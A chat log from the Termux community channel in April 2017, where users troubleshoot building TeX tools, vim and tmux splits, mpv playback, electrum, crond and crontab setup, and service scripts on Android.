

## Logged intermittently from [freenode.](https://freenode.net)

### Topic for [#termux](http://webchat.freenode.net/?channels=termux) is [termux.com](https://termux.com) | This channel  is mirrored | [Terminal emulator and Linux environment for Android](https://duckduckgo.com/?q=Terminal+emulator+and+Linux+environment+for+Android+Termux+github) 

### Topic set by fornwall (~u0_a110@23.229.0.146) on Wed, 07 Sep 2016 17:05:29

### Channel #termux:

### Channel created on Fri, 04 Sep 2015 18:19:05

2017-04-22 12:47:23	gitter1	(mklein994) Has anyone tried installing CPAN modules on Termux? I want to try building `biber` for TeXLive, and it requires some modules.

2017-04-22 12:47:37	gitter1	(mklein994) I'm just wondering if it's worth the headache.

2017-04-22 12:48:35	gitter1	(mklein994) The `biber.armel-linux` package is not built for Termux, so I can't use it directly.

2017-04-22 12:49:22	gitter1	(sdrausty) @mklein994 tried failed

2017-04-22 12:49:54	gitter1	(mklein994) The CPAN thing?

2017-04-22 12:51:52	gitter1	(sdrausty) @mklein994 from source http://biblatex-biber.sourceforge.net

2017-04-22 12:59:13	gitter1	(sdrausty) It will be tremendous when biber,  makeindex, xelatex and others work:)

2017-04-22 13:01:24	gitter1	(mklein994) xelatex works. `tlmgr install collection-xetex && texlinks`. Then `xelatex --help` should do something.

2017-04-22 18:42:51	gitter1	(cocodevienne) `termux-create-package` is exactly what I meant when I said `on-device`.

2017-04-22 18:42:59	gitter1	(cocodevienne) @sdrausty

2017-04-22 18:43:27	gitter1	(cocodevienne) And btw, how do I get the split-screen between Vim and the Shell?

2017-04-22 18:43:36	gitter1	(cocodevienne) @vishalbiswas

2017-04-22 18:53:16	gitter1	(mklein994) @cocodevienne I'm not `@vishalbiswas`, but you could use Neovim (`:help terminal`) or `tmux`.

2017-04-22 19:42:56	gitter1	(cocodevienne) But how do I split it?

2017-04-22 19:44:58	gitter1	(mklein994) `:split`.

2017-04-22 19:45:09	gitter1	(mklein994) (In nvim/vim).

2017-04-22 19:46:35	gitter1	(cocodevienne) Many thanks amigo!

2017-04-22 19:46:40	gitter1	(cocodevienne) @mklein994

2017-04-22 19:47:20	gitter1	(mklein994) No problem. Remember to check out `:help` every now and then. I find `:helpgrep` to be very useful.

2017-04-22 19:55:28	gitter1	(cocodevienne) Thanks!!:)

2017-04-23 00:18:51	kikiji	buffer 1

2017-04-23 07:24:16	van777	ls

2017-04-23 07:24:33	van777	wrong window ))

2017-04-23 07:46:04	Strife89	Hmmm, I noticed that mpv is available in the Termux repositories. But I'm confused as to why it's there; can you play videos with it despite having no X.org server (or equivalent)? If not, what (else) would one do with it in Termux?

2017-04-23 07:52:29	live_the_dream	there are no console music apps that use opensl on android

2017-04-23 07:52:53	live_the_dream	there is also a text video output

2017-04-23 07:54:31	live_the_dream	so without a lot of choice its either mpv or....

2017-04-23 07:56:34	van777	Strife89: i listen to online radio with mpv in termux

2017-04-23 08:21:30	frumpylava	Strife89: Combined with beets.io, mpv is actually a pretty cool music player. I also made notification controls for it. https://github.com/Neo-Oli/Termux-Mpv

2017-04-23 08:22:03	frumpylava	it has completely replaced. poweramp on my phone

2017-04-23 08:22:33	frumpylava	I also use it as a podcast playee using the 'greg' podcatcher.

2017-04-23 10:06:20	Strife89	Ahhhh.

2017-04-23 10:06:50	Strife89	I'll try that out, frumpylava!

2017-04-23 11:14:54	sdrausty	@fornwall Can you please fix the gitter/irc bot. It seems to have crashed.

2017-04-23 18:33:45	jacob___	hi guys! is there a command to force quit an app using termux?

2017-04-24 06:37:01	gitter1	(vishalbiswas) @rekt03486009_twitter Why do you need to?

2017-04-24 10:53:53	gitter1	(rekt03486009_twitter) i could not make myself clear, i meant; could i compile .c .h .cpp files on termux into .so files and use them in android apps. i'm really bad at terminology of these things

2017-04-24 12:05:16	gitter1	(vishalbiswas) @rekt03486009_twitter Yes, but only for your own arch

2017-04-24 12:05:39	gitter1	(vishalbiswas) We don't have cross compilers

2017-04-24 12:12:47	sdrausty	We do have clang (gcc && g++)

2017-04-24 12:26:42	gitter1	(vishalbiswas) But they'll only compile for the arch they are running on. Whereas, ndk will compile for all requested arches that the app is designed to run on

2017-04-24 12:49:52	gitter1	(sdrausty) I got a ~600 page book 📖 built into PDF on device:) WOW https://github.com/sdrausty/book

2017-04-24 12:52:00	gitter1	(mklein994) Nice. It's incredible to know what you can do with just a phone.

2017-04-24 13:13:03	gitter1	(sdrausty) I could not get it to build from the Makefile which gets stuck at

2017-04-24 13:14:28	gitter1	(sdrausty) sh: 1: makeindex: not found

2017-04-24 16:19:41	u0_a195	yo

2017-04-24 16:20:59	u0_a195	I have a request

2017-04-24 16:21:32	u0_a195	can we get nikto to termux. I'd love to have it on the go

2017-04-24 16:24:24	lol	ded

2017-04-24 16:36:20	gitter1	(sdrausty) @mklein994 Thanks for "`tlmgr install collection-xetex && texlinks`. Then `xelatex --help`" It does work.  I don't understand why it didn't work after  running 🏃 `tlmgr install scheme-full`.

2017-04-24 17:59:37	gitter1	(cocodevienne) Uhm, I tried the `:split` command. Could someone tell me how I get the terminal on top, and the vim Window below the terminal window?

2017-04-24 17:59:46	gitter1	(cocodevienne) All insdie termux?

2017-04-24 18:54:14	gitter1	(mklein994) @cocodevienne honestly, have a go at `vimtutor` and `:help` (inside vim). It's great to go through vim basics. There's a lot to learn; I go through it every now and then just to make sure I'm not forgetting anything.

2017-04-24 19:04:18	gitter1	(cocodevienne) Ok thanks @mklein994

2017-04-24 22:46:05	gitter1	(vishalbiswas) frumpylava: electrum is working. You just needed to create a new wallet.

2017-04-24 22:47:57	gitter1	(vishalbiswas) Or import an existing one

2017-04-24 23:48:51	gitter1	(bitcoinmeetups) Cool

2017-04-24 23:48:57	gitter1	(bitcoinmeetups) Anyway

2017-04-24 23:49:11	gitter1	(bitcoinmeetups) Hoe can I start crond on Termux? And what folder should I put the crontab in?

2017-04-24 23:49:16	gitter1	(bitcoinmeetups) How

2017-04-25 00:11:34	sdrausty	crontab -e

2017-04-25 00:16:23	gitter1	(bitcoinmeetups) That does not answer my question. I want to know how to start crond and where to put the crontab. I know how to edit it already.

2017-04-25 00:17:00	gitter1	(bitcoinmeetups) @vishalbiswas What command did you use to install electrum?

2017-04-25 00:17:16	gitter1	(vishalbiswas) manually installed it from source repo

2017-04-25 00:17:40	gitter1	(bitcoinmeetups) You took the tar.gz or something and put it in a folder and used dkpg?

2017-04-25 00:18:56	gitter1	(vishalbiswas) na, cloned the repo, installed dependencies, modified a little to disable android platform detection

2017-04-25 00:24:31	gitter1	(bitcoinmeetups) Ah, yes. Trying now.

2017-04-25 00:24:53	gitter1	(bitcoinmeetups) Oh, you modified a little. Maybe this will not work then.

2017-04-25 00:25:00	gitter1	(bitcoinmeetups) I am cloning now

2017-04-25 00:31:17	gitter1	(vishalbiswas) @bitcoinmeetups apply this patch

2017-04-25 00:31:17	gitter1	(vishalbiswas) ```patch

2017-04-25 00:31:17	gitter1	(vishalbiswas) diff --git a/electrum b/electrum

2017-04-25 00:31:17	gitter1	(vishalbiswas) [full message: https://gitter.im/termux/termux?at=58fed115c1d3b50154194ae5]

2017-04-25 00:32:21	gitter1	(vishalbiswas) just ran termux-fix-shebang and s|'ANDROID_DATA' in os.environ|False

2017-04-25 00:36:15	frumpylava	@vis

2017-04-25 00:37:10	frumpylava	@vishalbiswas cool. I'll try that out later today.

2017-04-25 02:41:33	live_the_dream	hmm someone asked for alpine 2.21 ...

2017-04-25 02:41:36	live_the_dream	yeah nuh

2017-04-25 02:41:58	live_the_dream	if i remmeber correctly i was kind of drunk a bit when i got it working

2017-04-25 02:54:51	frumpylava	@vishalbiswas, yes I got electrum to work. Altough the text mode seems to suffer from considerable code rot.

2017-04-25 02:56:51	gitter1	(vishalbiswas) Exactly!

2017-04-25 02:58:30	frumpylava	But I think the main things work.

2017-04-25 02:59:31	frumpylava	I found this issue about it https://github.com/spesmilo/electrum/issues/2354

2017-04-25 03:46:10	gitter1	(cocodevienne) https://plus.google.com/109751175275030326346/posts/8gYVmwbjYnp

2017-04-25 03:46:24	gitter1	(cocodevienne) 1) Have I handled this well?

2017-04-25 03:46:34	gitter1	(cocodevienne) 2) What does "s hall" mean?

2017-04-25 04:00:44	gitter1	(vishalbiswas) he got confused with using github repo push/pull and repo access

2017-04-25 04:01:11	gitter1	(vishalbiswas) he thought that users will need to use git clone to get deb files

2017-04-25 04:01:52	gitter1	(vishalbiswas) so thats why he was asking, "should the repo be private or public?" as in actual repo read access on github

2017-04-25 04:14:20	gitter1	(cocodevienne) Ohh, thanks lol, I got so confused.

2017-04-25 04:14:25	gitter1	(cocodevienne) @vishalbiswas

2017-04-25 07:23:29	gitter1	(cocodevienne) I'm very confused about splitting vim and the shell in side of Tmux. Can someone walk moi through all the steps?

2017-04-25 08:03:44	frumpylava	@cocodevienne Well, you can do 2 things. Split tmux (ctrl+b+") and launch another instance of vim (this means you can't easily yank and paste betweet the splits) or you can split vim itself (:split). I avoid launching several instances of vim as much as possible and instead split vim itself.

2017-04-25 08:05:05	gitter1	(cocodevienne) How do I do "ctrl"?

2017-04-25 08:05:11	gitter1	(cocodevienne) Volume up?

2017-04-25 08:05:42	frumpylava	Either that or you enable the extra keys view.

2017-04-25 08:06:20	frumpylava	https://termux.com/touch-keyboard.html#extra-keys-view

2017-04-25 08:06:33	frumpylava	@cocodevienne for using tmux, I strongly suggiest you enable mouse mode (put `set-option -g mouse on` in ~/.tmux.conf). It makes working with tmux much easier when not yet knowing all the keyboard shortcuts.

2017-04-25 08:09:41	frumpylava	@cocodevienne To learn about the keybindings see https://tmuxcheatsheet.com

2017-04-25 08:10:18	gitter1	(cocodevienne) works now!:)

2017-04-25 08:10:26	gitter1	(cocodevienne) it's volume down loool

2017-04-25 11:06:53	gitter1	(cocodevienne) Why isn't this working?

2017-04-25 11:06:56	gitter1	(cocodevienne) https://pastebin.com/9ix8T3Kn

2017-04-25 11:07:13	gitter1	(cocodevienne) Can't I declare a string function?

2017-04-25 11:56:09	gitter1	(vishalbiswas) Error?

2017-04-25 12:31:33	termuxy	hi

2017-04-25 12:32:05	termuxy	does mpv on termux play video or just audio

2017-04-25 12:32:41	termuxy	does it have a pseudo GUI like other unixes

2017-04-25 13:04:19	gitter1	(vishalbiswas) Yes it does, termuxy

2017-04-25 13:04:50	gitter1	(vishalbiswas) `mpv -vo tct` is what you're looking for

2017-04-25 13:05:34	gitter1	(vishalbiswas) Though, I prefer `-vo caca`

2017-04-25 13:07:41	gitter1	(mklein994) Yeah, on my phone (Galaxy S5) it stutters quite a bit, rendering it unusable with `mpv -vo tct` (true color terminal).

2017-04-25 13:09:42	termuxy	I want to use it with mpsyt as a default player

2017-04-25 13:10:40	termuxy	but i cant play video. -the show_video option is on true-

2017-04-25 13:11:11	termuxy	it anyone is familiar with mpsyt

2017-04-25 13:26:22	gitter1	(vishalbiswas) Set the player to `mpv -vo caca`

2017-04-25 13:26:35	gitter1	(vishalbiswas) instead of just `mpv`

2017-04-25 13:26:52	termuxy	caca??

2017-04-25 13:27:00	gitter1	(vishalbiswas) libcaca

2017-04-25 13:27:08	gitter1	(vishalbiswas) Much faster than tct

2017-04-25 13:27:13	gitter1	(vishalbiswas) And fun

2017-04-25 13:28:20	termuxy	so there is no ui like on linux for mpv??

2017-04-25 13:29:02	gitter1	(vishalbiswas) If you mean OpenGL ES output, then no

2017-04-25 13:29:50	gitter1	(vishalbiswas) I wonder if we can have vncservers in termux...

2017-04-25 13:31:21	termuxy	why?

2017-04-25 13:33:20	termuxy	no no vnc just checked

2017-04-25 13:33:49	gitter1	(vishalbiswas) Termux feels like an abstraction layer for linux programs, not a full distro

2017-04-25 13:34:16	gitter1	(vishalbiswas) Also, it would need a lot of work

2017-04-25 13:37:45	termuxy	yep

2017-04-25 22:45:12	Spriing	Nice

2017-04-25 23:08:50	gitter1	(vishalbiswas) @fornwall I can get Xvfb to compile. Does this mean that a vncserver is doable, theoritically?

2017-04-26 02:37:22	frumpylava	I just realized that there actually were posts on the termux mailing lists. Even though I subscribed in february, I haven't gotten a single email yet.

2017-04-26 03:04:22	gitter1	(vishalbiswas) Its working for me. I've received all these mails

2017-04-26 03:22:29	frumpylava	@vishalbiswas I subscribed again now. Altough it does show me as having subscribed at Feb 9. I worte a post now, We'll see if I receive the replies.

2017-04-26 03:25:53	frumpylava	@vishalbiswas By the way, I did my first baby steps in bitcoin now. All in Termux. It barely works. I even went to a ticket machine at the trainstation and scanned the QR code and bought 14 mbtc.

2017-04-26 03:26:18	gitter1	(vishalbiswas) that qr is pretty neat, i like it

2017-04-26 03:26:48	gitter1	(vishalbiswas) makes me wonder what kinds of apps have a cli...

2017-04-26 03:49:43	frumpylava	The electrum daemon is pretty neat as well.

2017-04-26 04:07:29	gitter1	(vishalbiswas) I wish there was a web frontend for it, instead of that curses based one

2017-04-26 04:16:09	live_the_dream	hmm

2017-04-26 04:17:36	live_the_dream	openal guy added capture to openal-soft

2017-04-26 04:17:58	live_the_dream	unfortunately it doesn't work he doesn't have a device to test ...

2017-04-26 04:18:28	live_the_dream	ls

2017-04-26 04:18:58	live_the_dream	it would be good ... we could make audio phone calls via termux

2017-04-26 04:19:41	live_the_dream	full circle?

2017-04-26 04:21:11	live_the_dream	i know what you are thinking "communicating via audio via a mobile phone?" fantastic right?

2017-04-26 04:21:57	gitter1	(vishalbiswas) are there any cli voice comm apps?

2017-04-26 04:22:19	gitter1	(vishalbiswas) never even thought of trying to use one

2017-04-26 04:23:43	live_the_dream	i got toxic working

2017-04-26 04:23:55	live_the_dream	toxic is a tox client

2017-04-26 04:24:20	live_the_dream	can do video as well ...

2017-04-26 04:25:07	live_the_dream	but only proper android one obviously

2017-04-26 04:59:13	gitter1	(cocodevienne) https://plus.google.com/109751175275030326346/posts/3eUy8hhEP1z

2017-04-26 04:59:57	gitter1	(cocodevienne) Any help for this issue. Thanks for the help, but I figured it out!:) Simple ifs will solve my problem!:) @mklein994

2017-04-26 05:00:07	gitter1	(cocodevienne) *?

2017-04-26 05:00:14	gitter1	(cocodevienne) @fornwall @vishalbiswas

2017-04-26 06:14:03	gitter1	(bitcoinmeetups) Hi there. How can I turn on crond in Termux? Input "crond" does not seem to work. Or "service crond start". Any ideas?

2017-04-26 06:42:18	frumpylava	@bitcoinmeetups if you run `crond` it will daemonize and not produce any output, but run in the background. try `crond -f` if you want to see it's output

2017-04-26 06:44:40	gitter1	(bitcoinmeetups) @frumpylava Well, I have this test crontab in the home folder: * * * * * date > ~/date.txt I guess if crond were running the crontab should actually generate some output to the date.txt file every 1 minute but that doesn't seem to be the case. Any ideas why?

2017-04-26 06:44:56	gitter1	(bitcoinmeetups) There are five stars * before date but gitter app removed them

2017-04-26 06:45:04	gitter1	(bitcoinmeetups) * * * * *

2017-04-26 06:45:53	frumpylava	and  `crontab -l` shows that as well?

2017-04-26 06:46:30	gitter1	(bitcoinmeetups) @frumpylava crontab -l

2017-04-26 06:46:30	gitter1	(bitcoinmeetups) crontab: can't open 'u0_a203': No such file or directory

2017-04-26 06:48:18	frumpylava	so where did you write that cronjob to?

2017-04-26 06:50:20	gitter1	(bitcoinmeetups) That's what I'm trying to figure out. What folder should it go to?

2017-04-26 06:51:43	frumpylava	you can type "crontab -e" to edit the correct file

2017-04-26 06:52:51	frumpylava	or you can load a file by running 'crontab ~/yourfile'

2017-04-26 06:56:35	gitter1	(bitcoinmeetups) @frumpylava Okay I went down to the spools directory, picked the same file that crontab -e edits, added the line I posted above but there is still no output to ˜/date.txt

2017-04-26 06:58:57	gitter1	(bitcoinmeetups) I just noticed that crontab -e generates a new crontab every time

2017-04-26 07:03:28	frumpylava	Yeah, I think crontab -e is slightly broken. Just edit the file manually.

2017-04-26 07:03:59	frumpylava	Try killing all stray crond processes and starting a fresh one with `crond -f`

2017-04-26 07:14:17	gitter1	(bitcoinmeetups) @frumpylava Ok I tried killall crond and then crond -f. Still no output. The question is which crontab I should edit because all of them looks like crontab.23451, crontab.23445 and so on.

2017-04-26 07:15:49	frumpylava	the one that starts with u0_*

2017-04-26 07:16:26	frumpylava	https://github.com/termux/termux-packages/issues/590

2017-04-26 07:17:01	gitter1	(bitcoinmeetups) None of them starts with u0_. /data/data/com.termux/files/usr/var/spool/cron

2017-04-26 07:17:07	gitter1	(bitcoinmeetups) Checking out 590 now

2017-04-26 07:23:20	gitter1	(bitcoinmeetups) @frumpylava Okay I went down to the crontabs directory and manually edited a file with my user ID as name. It actually worked. Glad to see it working, because I have tried making crontabs a bunch of times and it never seems to work well. Thanks for the advice and happy coding : D

2017-04-26 07:37:17	frumpylava	great \o/

2017-04-26 08:10:48	andi___	:qa

2017-04-26 08:52:55	enovella	hi guys, why termux is not supported on Android 4.4.x?

2017-04-26 08:53:23	enovella	I cannot run it on my old Xoom1 with CM13 Android 4.4 KitKat

2017-04-26 08:53:41	enovella	complains about requirements are not met

2017-04-26 09:18:43	live_the_dream	no 5.0 or above

2017-04-26 09:32:14	enovella	could I ask why this limitation?

2017-04-26 09:32:23	enovella	dalvik vs ART

2017-04-26 09:51:48	live_the_dream	api 21 or later

2017-04-26 10:21:22	gitter1	(vishalbiswas) enovella: there are some quirks that are only available from 5.0+

2017-04-26 10:23:34	gitter1	(vishalbiswas) while pre API 21 could be done, a lot more work would be required to port packages, because of the bionic libc

2017-04-26 10:28:44	enovella	gotcha and thx

2017-04-26 10:28:51	enovella	a pity though

2017-04-26 12:35:40	frumpylava	lol, my bank has an sms service that I can query my balance with. I wrote a script that automatically queries this every hour and displays my current balance in my tmux status bar. the termux-api is pretty great.

2017-04-26 12:38:44	gitter1	(mklein994) You need to see your bank balance every hour?

2017-04-26 12:40:01	frumpylava	@mklein994 No, not really.

2017-04-26 12:40:54	gitter1	(mklein994) Still a neat POC.

2017-04-26 12:44:19	frumpylava	Yeah, I did the same thing for my electrum wallet. and I thought, wouldn't it be neat to have that for my fiat bank account as well

2017-04-26 16:48:01	gitter1	(cocodevienne) Danish Nayeem?

2017-04-26 16:48:05	gitter1	(cocodevienne) Where u at?

2017-04-26 17:57:19	Atomic_RVWuB	hi

2017-04-26 18:02:35	gitter1	(cocodevienne) Hi yourself.

2017-04-26 18:14:11	gitter1	(cocodevienne) Danish?

2017-04-26 21:18:44	gitter1	(bitcoinmeetups) Good morning. So I want to start crond automatically at launch through .bashrc. Where is that file on Termux? I made a whereis search and found three different directories

2017-04-26 21:49:43	live_the_dream	.bashrc needs to be created in your home dir so ~/.basrc

2017-04-26 21:49:53	live_the_dream	err ~/bashrc

2017-04-26 22:23:57	rods-tab3	third times a  charm ie ??  ~/.bashrc  ??

2017-04-26 22:29:00	gitter1	(bitcoinmeetups) Wow, cool and easy : D

2017-04-26 22:29:29	gitter1	(bitcoinmeetups) Okay, maybe time to try to get Electrum running now

2017-04-26 22:29:43	gitter1	(bitcoinmeetups) @vishalbiswas Is it working for you?

2017-04-26 22:33:17	gitter1	(bitcoinmeetups) Or anyone else for that matter has Electrum up and running on Termux?

2017-04-26 22:50:32	gitter1	(vishalbiswas) @bitcoinmeetups frumpylava is using it. He also posted some really simple steps to install it in the termux issue

2017-04-26 22:51:44	gitter1	(bitcoinmeetups) I was looking there yesterday

2017-04-26 22:51:52	gitter1	(bitcoinmeetups) I will look again

2017-04-26 22:55:08	gitter1	(bitcoinmeetups) You mean this one? https://github.com/termux/termux-packages/issues/945

2017-04-26 22:55:15	gitter1	(bitcoinmeetups) Not sure if this is gonna work

2017-04-26 22:56:43	live_the_dream	~/ is always your home dir

2017-04-26 22:59:20	gitter1	(mklein994) If there's anything I'd change in the instructions, it would be to use `pip install --user` instead of just `pip install`. This keeps manually installed pip packages separate from those installed with `apt`. Just my 2¢.

2017-04-26 23:00:19	gitter1	(mklein994) But that changes the patch, so it might be simpler to just leave it.

2017-04-26 23:01:56	gitter1	(bitcoinmeetups) Who's got the skills to package it : D?

2017-04-26 23:02:03	gitter1	(vishalbiswas) @mklein994 Thats why I wrote that I don't know how to package python based packages ;)

2017-04-26 23:02:43	gitter1	(mklein994) I don't either; I just know it gets complicated *really* fast.

2017-04-26 23:02:51	gitter1	(bitcoinmeetups) @fornwall Hello Fredrik, how are you? Is it possible to have Electrum packaged or referred to someone that can do it?

2017-04-26 23:03:11	gitter1	(vishalbiswas) Last time I really used python, it was before pip was even a dream in the devs eyes

2017-04-26 23:04:04	gitter1	(bitcoinmeetups) You must be a hundred years old then?

2017-04-26 23:04:46	gitter1	(bitcoinmeetups) Just kidding

2017-04-26 23:04:47	gitter1	(vishalbiswas) I learned python when Symbian S60 was the shit

2017-04-26 23:05:05	gitter1	(bitcoinmeetups) I see. Well at least you have learned it : D

2017-04-26 23:05:08	gitter1	(vishalbiswas) Python 1.something

2017-04-26 23:08:09	gitter1	(vishalbiswas) I'm in a similar situation with metasploit. It's ruby-based

2017-04-26 23:08:39	gitter1	(vishalbiswas) I know how to install it manually, but, not how to package it

2017-04-26 23:58:48	gitter1	(bitcoinmeetups) I see. Maybe I will try to follow your instructions some day.

2017-04-27 00:10:09	rods-tab3	this was mentioned on google news feed  https://play.google.com/store/apps/details?id=ohi.andre.consolelauncher

2017-04-27 18:19:41	live_the_dream	what is the situation with openssl 1.1?

2017-04-27 20:00:08	gitter1	(DNTech) Hey.. php doesn't have the libraries for mysql??

2017-04-27 20:01:48	gitter1	(DNTech) all functions & methods ouputs error: call to undefined function  mysqli_connect()

2017-04-27 21:39:13	gitter1	(bitcoinmeetups) Good morning. Is it possible to turn on the USB tethering through the Termux-API?

2017-04-28 00:36:12	gitter1	(bitcoinmeetups) Also, I made a simple date script and put it in a crontab. For some reason everything is repeated a bunch of times (see below). Any idea why?

2017-04-28 00:36:13	gitter1	(bitcoinmeetups) ri Apr 28 11:32:00 ICT 2017

2017-04-28 00:36:13	gitter1	(bitcoinmeetups) Fri Apr 28 11:32:00 ICT 2017

2017-04-28 00:36:14	gitter1	(bitcoinmeetups) Fri Apr 28 11:32:00 ICT 2017

2017-04-28 00:36:14	gitter1	(bitcoinmeetups) [full message: https://gitter.im/termux/termux?at=5902c6becfec919272817b58]

2017-04-28 03:48:53	frumpylava	@DNTech Yeah, Here's and issue to track. https://github.com/termux/termux-packages/issues/938. mariadb was only added relatively recently, and nobody has yet enabled the mysqli extension for php.

2017-04-28 03:50:05	frumpylava	@bitcoinmeetups: I think you have launched 'crond' multiple times.

2017-04-28 04:30:58	frumpylava	@bitcoinmeetups If you're serious about running services on Termux, I've set up an example repository in how I do it. https://github.com/Neo-Oli/termux-services. It will ensure that your services are started automatically and are only running once.

2017-04-28 04:38:52	gitter1	(vishalbiswas) frumpylava: looks like you just made postgresql, mariadb, php-fpm and transmission easier for me

2017-04-28 04:42:03	frumpylava	@vishalbiswas I have services for those 4 as well, if you need them.

2017-04-28 04:42:22	gitter1	(vishalbiswas) sure

2017-04-28 04:42:59	gitter1	(vishalbiswas) you know, this could work as a termux package. we don't have anything like this in the repo

2017-04-28 04:43:30	gitter1	(vishalbiswas) maybe it needs enable/disable and auto start features

2017-04-28 04:44:05	frumpylava	BrainDamage was working on this a while ago, but he probably gave up.

2017-04-28 04:51:35	frumpylava	@vishalbiswas I added the services now. They're a bit more complicated though, since they specify config files. You may need to change them according to your file locations.

2017-04-28 04:53:04	gitter1	(vishalbiswas) Is there any daemon that you don't have a service for?

2017-04-28 04:53:37	frumpylava	@vishalbiswas tmux, but not for lack of trying.

2017-04-28 04:54:00	gitter1	(vishalbiswas) tmux is considered a daemon?

2017-04-28 04:54:28	frumpylava	Well the server is.

2017-04-28 04:55:18	gitter1	(vishalbiswas) i think, i just embarrassed myself

2017-04-28 04:55:50	frumpylava	I even frankensteined services for gpg-agent and dirmngr. They're hacky, because there isn't really a way to launch them non-daemonized.

2017-04-28 04:56:16	gitter1	(vishalbiswas) speaking of, ssh-agent works?

2017-04-28 04:57:43	frumpylava	I haven't tried ssh-agent. I generated an SSH Key as a subkey of my PGP Key and use gpg-agent as a replacement for ssh-agent.

2017-04-28 04:58:49	frumpylava	It should work with the -D option.

2017-04-28 04:58:56	gitter1	(vishalbiswas) that's the proper linuxy of hacking things

2017-04-28 05:09:25	frumpylava	the sv controls are really great. Restarting the webserver or php-fpm process after a config update is now just a `sv restart nginx` away.

2017-04-28 05:16:53	BrainDamage	frumpylava: more than gave up I got sidetracked by rl stuff, I'm short of time for personal projects, the conclusion I've got to package the scripts in the distro without making a ugly mess was to create a svscriptsdir/service/run separated from the actual $SVDIR, then symlink them by the package manager itself inside SVDIR along a disabled file, this way a script can be provided for each service without risking to autostart unconfigured

2017-04-28 05:16:53	BrainDamage	daemons, then all the user has to do to activate one is to just delete the disabled file and runsvdir will pick it up, my stopgap wasn't technical problems rather having time to figure out how apt packages work, all the recipes stuff feel a bit confusing

2017-04-28 05:19:54	BrainDamage	symlinking the individual files also has the advantage of not having the runtime files polluting the system package dir, damn having runsv writing runtime files in the config dir is such an annoying choice

2017-04-28 05:21:23	BrainDamage	and using disabled file in place of creating/deleting the symlink is a cleaner solution because the user can just ls its svdir to list for all the service and doesn't need an external tool to manage the start

2017-04-28 05:22:03	BrainDamage	and an alias/function could be created as shorthand for rm/touch the disable file

2017-04-28 05:22:52	frumpylava	sorry about that then. this "disabled" file sounds very much like the "down" file that runsv already knows about.

2017-04-28 05:24:03	BrainDamage	yes, I forgot the exact name, I'd have to check the docs, but it sounds like the correct name

2017-04-28 06:10:42	gitter1	(bitcoinmeetups) @frumpylava The command that runs directly in the crontab gets repeated about ten times or so. The command which is run indirectly in a .sh file which is called from the crontab seems to give the correct result.

2017-04-28 06:12:51	frumpylava	@bitcoinmeetups try running `pgrep crond`. If it returns more than 1 number you have crond running multiple times, each running the cronjob every minute.

2017-04-28 06:14:22	gitter1	(bitcoinmeetups) Output: 15785. Also I have restarted Termux and the issue remains.

2017-04-28 06:14:42	frumpylava	what does `crontab -l` output?

2017-04-28 06:15:42	gitter1	(bitcoinmeetups) 10 * * * * date >> ~/date.txt

2017-04-28 06:15:43	gitter1	(bitcoinmeetups)

2017-04-28 06:15:43	gitter1	(bitcoinmeetups) * * * * * ~/test.sh

2017-04-28 06:15:43	gitter1	(bitcoinmeetups) [full message: https://gitter.im/termux/termux?at=5903164f12d2409935a84f45]

2017-04-28 06:15:56	gitter1	(bitcoinmeetups) Formatting issue

2017-04-28 06:15:58	gitter1	(bitcoinmeetups) 1st line

2017-04-28 06:16:11	gitter1	(bitcoinmeetups) 10 star star star star date >> ˜/date.txt

2017-04-28 06:16:14	gitter1	(bitcoinmeetups) 2nd line

2017-04-28 06:16:26	gitter1	(bitcoinmeetups) Star star star star star ˜/test.sh

2017-04-28 06:16:36	gitter1	(bitcoinmeetups) Third line ignore

2017-04-28 06:16:49	gitter1	(bitcoinmeetups) 1st line creates multiple output to date.txt

2017-04-28 06:16:52	gitter1	(bitcoinmeetups) 2nd line works

2017-04-28 06:17:15	gitter1	(bitcoinmeetups) Actually I'm pretty happy that at least the script works at the moment, so perhaps I should not focus on this at the moment

2017-04-28 06:18:42	frumpylava	so the first line should launch every hour at :10, right?

2017-04-28 06:18:54	frumpylava	The second line every minute.

2017-04-28 06:18:58	gitter1	(bitcoinmeetups) Yes

2017-04-28 06:19:29	gitter1	(bitcoinmeetups) But the output from first line is repeated about a ten times to date.txt

2017-04-28 06:19:38	gitter1	(bitcoinmeetups) Have not seen that one before, might be a Termux issue

2017-04-28 06:24:16	frumpylava	hmm for me the same works.

2017-04-28 06:25:30	frumpylava	What is the current content of you date.txt?

2017-04-28 06:26:26	frumpylava	because the content you sent earlier indicates that it runs 10 times every minute. Is that still the case or have you changed the crontab line since.

2017-04-28 06:26:43	gitter1	(bitcoinmeetups) Looks a bit like this:

2017-04-28 06:26:43	gitter1	(bitcoinmeetups) ri Apr 28 15:10:03 ICT 2017

2017-04-28 06:26:44	gitter1	(bitcoinmeetups) Fri Apr 28 17:10:00 CST 2017

2017-04-28 06:26:44	gitter1	(bitcoinmeetups) Fri Apr 28 17:10:00 CST 2017

2017-04-28 06:26:44	gitter1	(bitcoinmeetups) [full message: https://gitter.im/termux/termux?at=590318e4f22385553d855abb]

2017-04-28 06:27:31	gitter1	(bitcoinmeetups) I think that number is a coincidence. As far as I know cron cannot run more often than once a minute without hackery.

